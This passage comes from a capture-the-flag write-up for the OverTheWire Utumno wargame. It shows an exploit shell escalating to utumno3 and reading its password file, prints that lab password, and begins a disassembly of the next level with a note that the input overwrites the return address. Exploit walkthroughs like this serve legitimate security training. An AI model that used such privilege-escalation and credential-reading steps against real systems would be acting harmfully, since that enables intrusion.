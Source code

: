 ```bash
utumno2@utumno:/tmp/ax$ gcc -m32 -static code.c -o code
utumno2@utumno:/tmp/ax$ ./code
$ whoami
utumno3
$ cat /etc/utumno_pass/utumno3
zuudafiine
$
```

Done.

## Utumno 03 Solution

**SSH :** *ssh utumno3@utumno.labs.overthewire.org -p 2227*<br/>
**Pass :** *zuudafiine*

This one was a tough one. Here, your input will be used to overwrite the return address. First let's check the code :

```nasm
0x080483eb <+0>:	push   ebp
0x080483ec <+1>:	mov    ebp,esp
0x080483ee <+3>:	push   ebx
0x080483ef <+4>:	sub    esp,0x38
0x080483f2 <+7>:	mov    DWORD PTR [ebp-0xc],0x0
0x080483f9 <+14>:	mov    eax,DWORD PTR [ebp-0xc]
0x080483fc <+17>:	mov    DWORD PTR [ebp-0x8],eax
0x080483ff <+20>:	jmp    0x804844d <main+98>
0x08048401 <+22>:	mov    eax,DWORD PTR [ebp-0xc]
0x08048404 <+25>:	mov    ecx,eax 
0x08048406 <+27>:	lea    edx,[ebp-0x3c]
0x08048409 <+30>:	mov    eax,DWORD PTR [ebp-0x8] ;
0x0804840c <+33>:	add    eax,edx 
0x0804840e <+35>:	mov    BYTE PTR [eax],cl 
0x08048410 <+37>:	lea    edx,[ebp-0x3c] 
0x08048413 <+40>:	mov    eax,DWORD PTR [ebp-0x8]
0x08048416 <+43>:	add    eax,edx
0x08048418 <+45>:	movzx  ecx,BYTE PTR [eax] 
0x0804841b <+48>:	mov    eax,DWORD PTR [ebp-0x8] 
0x0804841e <+51>:	mov    edx,eax 
0x08048420 <+53>:	mov    eax,edx 
0x08048422 <+55>:	add    eax,eax 
0x08048424 <+57>:	add    eax,edx 
0x08048426 <+59>:	xor    ecx,eax 
0x08048428 <+61>:	lea    edx,[ebp-0x3c] 
0x0804842b <+64>:	mov    eax,DWORD PTR [ebp-0x8] 
0x0804842e <+67>:	add    eax,edx 
0x08048430 <+69>:	mov    BYTE PTR [eax], cl 
0x08048432 <+71>:	lea    edx,[ebp-0x3c] 
0x08048435 <+74>:	mov    eax,DWORD PTR [ebp-0x8] 
0x08048438 <+77>:	add    eax,edx 
0x0804843a <+79>:	movzx  eax, BYTE PTR [eax] 
0x0804843d <+82>:	movsx  ebx,al 
0x08048440 <+85>:	call   0x80482c0 <getchar@plt> 
0x08048445 <+90>:	mov    BYTE PTR [ebp+ebx*1-0x24],al 
0x08048449 <+94>:	add    DWORD PTR [ebp-0x8],0x1 
0x0804844d <+98>:	call   0x80482c0 <getchar@plt>
0x08048452 <+103>:	mov    DWORD PTR [ebp-0xc],eax
0x08048455 <+106>:	cmp    DWORD PTR [ebp-0xc],0xffffffff
0x08048459 <+110>:	je     0x8048461 <main+118>
0x0804845b <+112>:	cmp    DWORD PTR [ebp-0x8],0x17
0x0804845f <+116>:	jle    0x8048401 <main+22>
0x08048461 <+118>:	mov    eax,0x0
0x08048466 <+123>:	add    esp,0x38
```